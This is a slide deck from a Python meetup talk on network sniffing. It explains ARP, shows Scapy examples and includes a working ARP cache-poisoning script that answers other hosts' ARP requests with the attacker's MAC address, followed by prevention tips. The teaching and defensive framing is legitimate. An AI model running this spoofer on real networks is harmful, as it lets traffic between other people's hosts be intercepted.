


class: center, middle

# Sniffing your way through the network

---
class: center, middle

# Who am I?

Software Engineer at Prismberry

Like to do cool stuff with tech

---

# Today we will try to answer a few basic questions about network sniffing

1. What?
2. Why?
3. How?
---
class: middle,center

# ARP
# Address resolution protocol

---
class: middle,center

# Some Basic stuff



???

- ARP packets are used to map IP addresses to MAC addresses
- There are two types of ARP packets
    - ARP request
    - ARP reply
- ARP request is used to find the MAC address of a host on the network
- ARP reply is used to reply to the ARP request

---
class: middle,center
count: false

# Some more basics



???

# ARP cache
- ARP cache is a table that stores the mapping of IP addresses to MAC addresses


---
# What?


---
# How?


???

# ARP cache poisoning
ARP poisoning is a technique used to intercept traffic between two hosts on the network. This is done by sending fake ARP replies to the hosts. The hosts will then start sending traffic to the attacker instead of the intended host.

---
class: center, middle

# Requirement

```bash
pip3 install scapy
```
---

# Scapy shell


```python
$ sudo scapy
Welcome to Scapy (2.4.5)
>>> p = IP(dst="github.com")/ICMP()
>>> p
<IP  frag=0 proto=icmp dst=Net('github.com') |<ICMP  |>>
>>> r = sr1(p)
Begin emission:
Finished sending 1 packets.
.*
Received 2 packets, got 1 answers, remaining 0 packets
>>> r
<IP  version=4 ihl=5 tos=0x0 len=28 id=59762 flags= frag=0 ttl=57 proto=icmp
chksum=0x7792 src=140.82.121.4 dst=217.25.178.5 |<ICMP  type=echo-reply
code=0 chksum=0xffff id=0x0 seq=0x0 |>>
```

---
# ARP request and reply

```python
#! /usr/bin/env python3
from scapy.all import ARP, sniff

def arp_display(pkt):
    if pkt[ARP].op == 1: #who-has (request)
        return f"Request: {pkt[ARP].psrc} is asking about {pkt[ARP].pdst}"
    if pkt[ARP].op == 2: #is-at (response)
        return f"*Response: {pkt[ARP].hwsrc} has address {pkt[ARP].psrc}"

sniff(prn=arp_display, filter="arp", store=0, count=10)
```

---

# Output


---

# Sniffing with code

```python
from threading import Thread
from scapy.all import *

INTERFACE = "wlan0"
MY_MAC_ADDRESS = get_if_hwaddr(INTERFACE)
MY_IP_ADDRESS = get_if_addr(INTERFACE)

class ARPSpoofer(AnsweringMachine):
    def is_request(self, request):
        return request.haslayer('ARP') and request[ARP].op == 1 and request[ARP].pdst != MY_IP_ADDRESS
    
    def make_reply(self, request):
        response = Ether()/ARP()
        response[Ether].dst = request[Ether].src
        response[Ether].src = MY_MAC_ADDRESS
        response[ARP].op = 2
        response[ARP].hwsrc = MY_MAC_ADDRESS
        response[ARP].hwdst = request[ARP].hwsrc
        response[ARP].psrc = request[ARP].pdst
        response[ARP].pdst = request[ARP].psrc
        return response[ARP]

arp_spoofer = Thread(target=ARPSpoofer())
arp_spoofer.start()
arp_spoofer.join()
```

???

# How to perform ARP cache poisoning
- We will be using scapy to perform the same
- Scapy is a python library that allows us to send and receive packets
- The above code will send an ARP reply to the victim and the gateway
- The victim will then start sending traffic to the attacker
- Similarly, the gateway will also start sending traffic to the attacker

---
# Output


---
class: center, middle

# What does this mean for you

---

# How to prevent ARP cache poisoning
- Static ARP table
- Restrictions on the physical network 
- Using Smart switch
- Encryption


???
- We can prevent ARP cache poisoning by monitoring the ARP cache and ARP traffic on the network.
- We can use the following code to monitor the ARP cache
- The above code will sniff all the ARP packets on the network
- We can then check if the ARP cache is poisoned or not
- As we know, ARP cache poisoning is done by sending fake ARP replies
- So, we can check if the ARP cache is poisoned by checking if the ARP cache has the IP address of the attacker
- If the ARP cache has the IP address of the attacker, then the ARP cache is poisoned
- We can then send an ARP reply to the victim and the gateway to remove the attacker from the ARP cache by using the following code

---
class: center, middle

# But this is hard to do if you are on a public network

---
class: center,middle

[W47cH3R](https://github.com/EXTREMOPHILARUM/W47cH3R)

---
class: center, middle

# Any questions?
---
class: center, middle

# Thank you for having me here
# You can find me @EXTREMOPHILARUM
# You can find the slides at hydpy.saurabhn.com